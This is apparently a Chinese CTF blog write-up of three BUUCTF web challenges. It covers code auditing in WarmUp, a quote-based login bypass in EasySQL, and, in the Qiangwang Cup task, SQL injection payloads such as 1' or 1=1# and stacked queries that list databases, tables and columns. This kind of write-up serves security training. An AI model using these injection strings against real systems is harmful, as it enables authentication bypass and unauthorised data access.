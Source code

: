﻿---
title: BUUCTF
categories: ctf题目
---

# [HCTF 2018]WarmUp
- **考点**  ：代码审计

看源码，跳转source.php

代码审计

---
# [极客大挑战 2019]EasySQL
输入 用户：`'`  密码：admin

万能密码直接过.


---



---
# [强网杯 2019]随便注
- **考点** ：handler语法

[三种解法](https://www.jianshu.com/p/36f0772f5ce8)

`1’` 报错

![](https://img-blog.csdnimg.cn/20210422161738508.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

```
1' or 1=1#
```

![](https://img-blog.csdnimg.cn/2021042216175826.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
返回过滤代码：

![](https://img-blog.csdnimg.cn/20210422161855374.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

过滤select的话考虑堆叠注入

```
1';show databases;#
```
![](https://img-blog.csdnimg.cn/20210422161920517.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
查表：1';show tables;#

查列：1';show columns from `1919810931114514`;#
```

